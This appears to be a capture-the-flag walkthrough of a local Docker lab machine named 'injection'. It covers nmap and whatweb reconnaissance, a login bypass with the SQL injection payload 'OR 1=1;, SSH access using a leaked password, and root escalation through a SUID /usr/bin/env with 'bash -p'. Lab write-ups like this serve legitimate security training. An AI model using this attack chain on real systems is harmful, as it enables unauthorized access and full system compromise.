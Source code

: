 # Run the injection machine
```
 sudo bash auto_deploy.sh injection.tar
```
 sudo bash auto_deploy.sh injection.tar
[sudo] password for kali: 

Estamos desplegando la máquina vulnerable, espere un momento.                             

Máquina desplegada, su dirección IP es --> 172.17.0.2                                     

Presiona Ctrl+C cuando termines con la máquina para eliminarla    


# Look for all the open ports
```
sudo nmap -p- --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG openports
```
```
File: openports
───────┼──────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.95 scan initiated Sun Apr 20 17:10:28 2025 as: /usr/lib/nmap/nmap -p- --
       │ open --min-rate 5000 -vvv -n -Pn -oG openports 172.17.0.2
   2   │ # Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
   3   │ Host: 172.17.0.2 () Status: Up
   4   │ Host: 172.17.0.2 () Ports: 22/open/tcp//ssh///, 80/open/tcp//http///    Ignored S
       │ tate: closed (65533)
   5   │ # Nmap done at Sun Apr 20 17:10:29 2025 -- 1 IP address (1 host up) scanned in 0.
       │ 98 seconds
```
# Scan for the servies and versions running in the open ports
```
sudo nmap -sCV -p 22,80 -vvv 172.17.0.2 -oN service_vul_scan

```
```
┬──────────────────────────────────────────────────────────────────────────────────
       │ File: service_vul_scan
───────┼──────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.95 scan initiated Sun Apr 20 17:29:47 2025 as: /usr/lib/nmap/nmap -sCV -
       │ p 22,80 -vvv -oN service_vul_scan 172.17.0.2
   2   │ Nmap scan report for 172.17.0.2
   3   │ Host is up, received arp-response (0.000075s latency).
   4   │ Scanned at 2025-04-20 17:29:47 AEST for 6s
   5   │ 
   6   │ PORT   STATE SERVICE REASON         VERSION
   7   │ 22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux
       │ ; protocol 2.0)
   8   │ | ssh-hostkey: 
   9   │ |   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
  10   │ | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ9Urfk
       │ zVjvriOVFwT9rOHz6XGJrVwKK/A6RMody6c0ovLNeCgaU6kCb+dGPPeXwCaio++IwxYm0SxRGYITrhr4=
  11   │ |   256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
  12   │ |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJV4CYnqtqSQxWkpfq7xR8DG/nHJfLXDhtkyMHA5pLh
       │ O
  13   │ 80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
  14   │ | http-methods: 
  15   │ |_  Supported Methods: GET HEAD POST OPTIONS
  16   │ |_http-title: Iniciar Sesi\xC3\xB3n
  17   │ |_http-server-header: Apache/2.4.52 (Ubuntu)
  18   │ | http-cookie-flags: 
  19   │ |   /: 
  20   │ |     PHPSESSID: 
  21   │ |_      httponly flag not set
  22   │ MAC Address: 02:42:AC:11:00:02 (Unknown)
  23   │ Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  24   │
```
# Lets look what the website is running
```
whatweb 172.17.0.2
```
```
http://172.17.0.2 [200 OK] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], PasswordField[password], Title[Iniciar Sesión]
```
# lets access the website
```
172.17.0.2
```
It takes us to the log in page
we can try and perform sql injection in those fields
```
user: 'OR 1=1;
password: 123
```
we try to log on as the first user and it was successful
We get an pop up 
```
Welcome Dylan. You have correctly inserted your password: KJSDFG789FGSDF78
```
# Since ssh is open we can try to log in as dylan and use the password we got
```
ssh dylan@172.17.0.2
dylan@172.17.0.2's password:
```
we get access as the dylan
```
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.12.20-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```
# lets check if we have root priviliges
```
dylan@52fb1b04c80a:~$ sudo -l
-bash: sudo: command not found
```
since there is no bash shell lets try to search for binaries that have root permission
```
find / -perm -4000 2>/dev/null
```/usr/bin/chfn
/usr/bin/umount
/usr/bin/env
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
lets execute the the binary
```
/usr/bin/env /bin/bash
```
```
dylan@52fb1b04c80a:~$ /usr/bin/env /bin/bash
bash-5.1$ whoami
dylan
bash-5.1$ exit
```
the EUID on /usr/bin/env was not preserved so lets try again
```
/usr/bin/env /bin/bash -p
```
the result was as follows
```
dylan@52fb1b04c80a:~$ /usr/bin/env /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash
systemd-network:x:102:104:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:105:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:106::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:105:107:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
```


